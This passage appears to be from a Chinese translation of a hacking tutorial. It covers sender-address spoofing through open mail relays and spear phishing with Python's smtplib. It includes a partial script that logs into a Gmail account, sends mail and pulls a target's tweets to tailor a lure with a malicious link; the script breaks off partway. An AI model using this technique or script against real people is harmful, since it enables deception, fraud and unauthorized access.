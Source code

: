 提供了有效的邮件服务器和参数，客户端将正确的发送邮件给目标。有许多的邮件服务器，然而，不带开转发，我们只能发送邮件到就特定的地址。在本地的邮件服务中设置转发，或者在互联网上打开转发。将能发送邮件从任何地址到任何地址，发送方的地址甚至可以是无效的。

垃圾邮件的发送者使用相同的技术发送邮件来自`Potus@whitehouse.gov`：他们简单的伪造了发送地址。很少 有人会打开来自可疑地址邮件，我们可以伪造邮件的发送地址是关键。使用客 户端打开，打开转发功能，是攻击者从一个看起来值得信奈的地址发送邮件， 增加用户点开邮件的可能性

## 用 Smtplib 进行鱼叉式网络钓鱼

将我们所有的研究放在一起是我们最后的阶段。在这里，我们的脚本创建了一个看起来像目标朋友发来的电子邮件，目标发现一些有趣的事情，邮件看起来是真人写的。大量的研究投入到帮助电脑的的交流看起来更像人，各种各样的方法任然在完善。为了减少这种可能性，我们将创建一个包含攻击荷载的的简单的信息邮件。程序的几个部分之一将涉及选择包含这条信息。我们的程序将按数据随机的选择。采取地步骤是：选择虚假的发件人地址，制作一个主题，创建一个信息，然后发送电子邮件。幸运的是创建发送人和主题是相当的简单。

代码的 if 语句仔细的处理和如何将短信息连接在一起是很重要的问题。当处理数量巨大的可能性时，在我们的侦查中将使用更多情况的代码，每一个可能性会被分为独立的函数。每一个方法将以特定的的方法承担一块的开始和结束，然后独立与其他代码的操作。这样，收集到某人的信息就越多，唯一改变的是方法。最后一步是通过我们的电子邮件客户端，相信它的人愚蠢的做剩下的活。这个过程的没一部分在这一章中都讨论过，这是任何被用来获取权限的钓鱼网站的产物。在我们的例子中，我们简单的发送一个名不副实的链接，有效荷载可以是附件或者是诈骗网站，或者任何其他的攻击方法。这个过程将对每一个成员重复，只要一个人上当攻击者就能获取权限。 我们特定的脚本将攻击一个用户基于他公开的信息。基于他的地点，用户，Hash 标签，链接，脚本将创建一个附带恶意链接的邮件等待用户点击。

```
# coding=UTF-8
import smtplib
import optparse
from email.mime.text import MIMEText
from twitterClass import *
from random import choice

def sendMail(user,pwd,to,subject,text):
    msg = MIMEText(text)
    msg['From'] = user
    msg['To'] = to
    msg['Subject'] = subject
    try:
        smtpServer = smtplib.SMTP('smtp.gmail.com', 587)
        print("[+] Connecting To Mail Server.")
        smtpServer.ehlo()
        print("[+] Starting Encrypted Session.")
        smtpServer.starttls()
        smtpServer.ehlo()
        print("[+] Logging Into Mail Server.")
        smtpServer.login(user, pwd)
        print("[+] Sending Mail.")
        smtpServer.sendmail(user, to, msg.as_string())
        smtpServer.close()
        print("[+] Mail Sent Successfully.")
    except:
        print("[-] Sending Mail Failed.")

def main():
    parser = optparse.OptionParser('usage%prog -u <twitter target> -t <target email> -l <gmail login> -p <gmail password>')
    parser.add_option('-u', dest='handle', type='string', help='specify twitter handle')
    parser.add_option('-t', dest='tgt', type='string', help='specify target email')
    parser.add_option('-l', dest='user', type='string', help='specify gmail login')
    parser.add_option('-p', dest='pwd', type='string', help='specify gmail password')
    (options, args) = parser.parse_args()
    handle = options.handle
    tgt = options.tgt
    user = options.user
    pwd = options.pwd
    if handle == None or tgt == None or user ==None or pwd==None:
        print(parser.usage)
        exit(0)
    print("[+] Fetching tweets from: "+str(handle))
    spamTgt = reconPerson(handle)
    spamTgt.get_tweets()
    print("[+] Fetching interests from: "+str(handle))
```